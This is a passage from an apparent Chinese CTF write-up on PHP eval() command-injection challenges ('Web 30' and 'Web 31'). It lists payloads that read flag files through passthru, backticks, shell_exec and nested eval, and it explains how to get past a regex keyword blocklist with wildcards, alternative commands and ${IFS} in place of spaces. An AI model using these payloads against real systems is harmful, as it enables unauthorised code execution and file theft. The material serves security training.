 `?c=passthru("ls");`

` ?c=passthru("tac fla*");`

**反引号：**

```
?c=echo `ls`;
?c=echo `tac fla*`;
```

**shell_exec：**

`?c=echo shell_exec("ls");`

` ?c=echo shell_exec("nl fla*|tac");`

**eval绕过：**

` ?c=eval($_GET["code"]);&code=system("tac flag.php");`

`?c=eval($_GET[1]);&1=phpinfo();`

`?c=eval($_GET[1]);&1=system("tac%20flag.php");`

**注意：**拼接法`?c=$a=sys;$b=tem;$d=$a.$b;$d("tac fl*");`（这方法也是没谁了）

**一个linux命令：**

打印文件命令 echo nl  file，这个命令貌似可以在cat、tac被过滤的时候使用。





## Web 31

代码如下：

```php
<?php
error_reporting(0);

if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)) {
        eval($c);
    }
} else {
    highlight_file(__FILE__);
}
?>
```

敏感词： "flag"、"system"、"php"、"cat"、"sort"、"shell"、"."、" "、"'"（空格和单引号）。

我们一个一个看：

1. flag，这个就用通配符就行
2. system，Web 30中已经解决了
3. cat，我们可以使用“tac、nl、cp”等
4. 空格，`%09`、`${IFS}`、`$IFS$9`（`\$IFS\$9`转义）都可以
